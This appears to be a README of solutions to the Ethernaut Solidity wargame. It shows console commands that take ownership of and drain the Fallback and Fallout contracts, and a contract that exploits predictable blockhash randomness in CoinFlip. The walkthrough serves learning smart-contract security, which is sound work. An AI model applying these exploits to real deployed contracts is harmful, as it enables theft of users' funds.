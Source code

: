 # Ethernaut
The Ethernaut is a Web3/Solidity based wargame inspired on overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'.

## 1.Fallback
~~~
> contract.contribute({value:toWei("0.0001", "ether")})

> web3.eth.sendTransaction({to:"0x3D585bb9145ca9101D5EdA79E138D854242FF90C", 
	value:toWei("0.0001", "ether"), from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"})
	
> contract.owner()
< [[PromiseResult]]: "0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"

> contract.withdraw()

> getBalance("0x3D585bb9145ca9101D5EdA79E138D854242FF90C")
< [[PromiseResult]]: "0"
~~~

## 2.Fallout
```
> contract.owner()
< [[PromiseResult]]: "0x0000000000000000000000000000000000000000"

> contract.Fal1out()

> contract.owner()
< [[PromiseResult]]: "0xedd0cCc6FeE49D502E8BfA3C6033ce0201afaD83"

## 3.CoinFlip
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import"./coinflip.sol";

contract coinflipAttack {
    CoinFlip public coinFlipAttack;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address victimaddress) public {
        coinFlipAttack = CoinFlip(victimaddress);
    }

    function flip() public returns (bool) {
        
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = uint256(blockValue/FACTOR);
        
        bool side = coinFlip == 1 ? true : false;

        coinFlipAttack.flip(side);
    }
}
```

